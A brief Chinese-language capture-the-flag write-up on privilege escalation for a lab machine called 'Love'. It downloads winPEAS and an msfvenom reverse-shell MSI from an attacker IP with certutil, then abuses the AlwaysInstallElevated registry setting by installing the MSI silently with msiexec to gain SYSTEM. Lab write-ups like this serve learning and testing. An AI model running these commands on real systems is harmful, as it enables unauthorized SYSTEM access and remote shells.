

# Love 提權

use winpeas

certutil -urlcache -split -f [http://10.10.14.30/winPEASany.exe](http://10.10.14.30/winPEASany.exe) wp.exe

wp.exe

當 `AlwaysInstallElevated` 在 `HKLM` (HKEY_LOCAL_MACHINE) 和 `HKCU` (HKEY_CURRENT_USER) 註冊表中都被設置為 **1** 時，代表系統允許**任何使用者**以 `NT AUTHORITY\SYSTEM` 權限安裝 `.msi` 檔案。

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.30 LPORT=5555 -f msi -o setup.msi

開監聽

將 `setup.msi` 傳送到目標機器

certutil -urlcache -split -f [http://10.10.14.30/setup.msi](http://10.10.14.30/setup.msi) C:\Users\Public\setup.msi

msiexec /quiet /qn /i C:\Users\Public\setup.msi

